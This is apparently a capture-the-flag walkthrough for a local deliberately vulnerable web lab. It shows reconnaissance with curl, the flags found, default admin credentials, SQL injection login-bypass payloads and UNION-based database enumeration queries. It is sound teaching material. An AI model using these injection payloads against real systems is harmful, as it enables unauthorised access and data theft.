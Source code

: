 #### 1.3 Information Gathering
```bash
# Check robots.txt
curl http://localhost:8080/robots.txt

# Check source code comments
curl http://localhost:8080/ | grep -i "<!--"
```

**Flags Found:**
- `FLAG{hidden_service_discovered_8081}` - Akses http://localhost:8081
- `FLAG{backup_files_exposed_g0bust3r}` - Baca /backup/database.sql

**Network Analysis Results:**
- Admin panel URLs discovered: `/admin/secrets.php`, `/admin/vault.php`
- Session information: `PHPSESSID=admin_session`
- HTTP requests to sensitive endpoints logged

### Phase 2: SQL Injection 💉

#### 2.1 Authentication Bypass
```bash
# Method 1: Default credentials
Username: admin
Password: admin123

# Method 2: SQL Injection
Username: ' OR 1=1#
Password: anything

# Method 3: Specific user targeting
Username: detective' OR username='admin'--
Password: anything
```

#### 2.2 Systematic Database Enumeration (Dashboard Search)

**Step 1: Determine number of columns**
```sql
-- Test column count
%' ORDER BY 4#  -- Success (4 columns exist)
%' ORDER BY 5#  -- Error (only 4 columns)
```

**Step 2: Test injection point**
```sql
-- Verify UNION injection works
%' UNION SELECT 'test',NULL,NULL,NULL#
```

**Step 3: Database information gathering**
```sql
-- Get database info
%' UNION SELECT @@hostname,database(),@@version,NULL#

-- Results:
-- Hostname: [container_hostname]
-- Database: mystery_corp
-- Version: MySQL 8.0.x
```
